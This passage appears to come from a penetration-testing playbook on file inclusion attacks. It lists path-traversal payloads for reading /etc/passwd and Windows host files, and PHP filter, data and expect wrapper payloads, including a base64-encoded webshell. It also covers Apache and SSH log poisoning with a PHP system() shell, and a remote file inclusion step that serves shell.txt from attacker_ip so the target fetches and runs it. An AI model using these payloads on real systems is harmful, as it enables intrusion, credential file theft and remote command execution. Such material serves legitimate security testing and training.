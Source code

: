 ### Scenario 2: Local File Inclusion (LFI)

#### 2.1 Basic LFI Testing
**Detection Payloads:**
```bash
# Linux targets
http://target_ip/page.php?file=../../../etc/passwd
http://target_ip/page.php?file=....//....//....//etc/passwd
http://target_ip/page.php?file=%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64

# Windows targets
http://target_ip/page.php?file=../../../windows/system32/drivers/etc/hosts
http://target_ip/page.php?file=C:\windows\system32\drivers\etc\hosts
```

#### 2.2 Advanced LFI Techniques
**PHP Wrapper Exploitation:**
```bash
# PHP filter wrapper
http://target_ip/page.php?file=php://filter/convert.base64-encode/resource=index.php
http://target_ip/page.php?file=php://filter/read=string.rot13/resource=index.php

# Data wrapper RCE
http://target_ip/page.php?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8%2B&cmd=whoami

# Expect wrapper (if enabled)
http://target_ip/page.php?file=expect://whoami
```

#### 2.3 Log Poisoning Techniques
**Apache Log Poisoning:**
```bash
# Poison User-Agent in access logs
curl -A "<?php system(\$_GET['cmd']); ?>" http://target_ip/

# Include poisoned log file
http://target_ip/page.php?file=../../../var/log/apache2/access.log&cmd=whoami
```

**SSH Log Poisoning:**
```bash
# Attempt SSH connection with PHP payload as username
ssh "<?php system(\$_GET['cmd']); ?>"@target_ip

# Include auth.log
http://target_ip/page.php?file=../../../var/log/auth.log&cmd=id
```

### Scenario 3: Remote File Inclusion (RFI)

#### 3.1 RFI Detection and Exploitation
**Basic RFI Testing:**
```bash
# Host malicious file on attacker machine
echo "<?php system(\$_GET['cmd']); ?>" > shell.txt
python3 -m http.server 8000

# Include remote file
http://target_ip/page.php?file=http://attacker_ip:8000/shell.txt&cmd=whoami
```
